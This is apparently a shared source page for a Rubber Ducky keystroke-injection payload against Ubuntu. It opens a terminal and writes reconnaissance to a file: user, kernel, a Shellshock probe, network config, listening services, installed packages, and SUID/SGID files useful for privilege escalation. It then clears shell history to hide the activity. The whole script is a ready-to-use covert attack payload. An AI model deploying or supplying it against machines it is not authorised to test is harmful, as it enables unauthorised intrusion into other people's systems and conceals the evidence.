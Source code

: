 The following script is an information gatherer script which collects info from a running Ubuntu OS and saves it to a file named "info_gathering.txt". 
The info that the script retrieves is the logged in username, the distribution and kernel version of the running system, the applicability of the shellsock bug, the mounted filesystems, information which is related to the Network adapters, availability of development tools (python, g++), contents of the hosts file and the listening TCP/UDP connections. Apart from that it attempts to find readable folders inside the /etc folder and also prints the SUID and GUID files.

    REM Info gathering Ubuntu 1.0 Script issues OS info gathering commands in terminal - by Captain_Harlock, Improved by Thecakeisgit ;D
    DELAY 3000
    CTRL ALT t
    DELAY 1500
    STRING clear
    DELAY 10
    ENTER
    DELAY 50
    STRING echo "Logged in user: " $USER > info_gathering.txt
    ENTER
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo -n "Distribution Kernel Version: " >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING cat /etc/issue | cut -c1-13 >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING echo -n "uname results: " >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING uname -a >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 100
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING echo "Shellsock Bug Vulnerability: " >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING env x='() { :;}; echo vulnerable' bash -c "echo this is a test" >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo "Mounted filesystems: " >> info_gathering.txt
    ENTER 
    DELAY 50
    STRING mount -l >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 100
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50 
    STRING echo "Network Configuration: " >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING ifconfig -a | grep 'Link\|inet' >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Print Hosts: " >> info_gathering.txt
    ENTER
    DELAY 50
    STRING cat /etc/hosts >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Print ARP: " >> info_gathering.txt
    ENTER
    DELAY 50 
    STRING arp >> info_gathering.txt
    ENTER
    DELAY 50 
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Development tools availability: " >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which gcc >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which g++ >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which python >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Print TCP/UDP Listening Services: " >> info_gathering.txt
    ENTER
    DELAY 50
    STRING netstat -tunlpe >> info_gathering.txt
    ENTER
    DELAY 300
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Installed Packages: " >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 200
    STRING dpkg -l >> info_gathering.txt
    ENTER
    DELAY 300
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Find Readable Folders in /etc: " >> info_gathering.txt
    ENTER
    DELAY 50
    STRING find /etc -user $(id -u) -perm -u=r -o -group $(id -g) -perm -g=r -o -perm -o=r -ls 2> /dev/null >> info_gathering.txt
    ENTER
    DELAY 500
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Find SUID and GUID files" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING find / -type f -perm -u=s -o -type f -perm -g=s -ls  2> /dev/null >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 15000
    STRING history -c
    DELAY 50
    ENTER
    DELAY 50
    STRING exit
    DELAY 50
    ENTER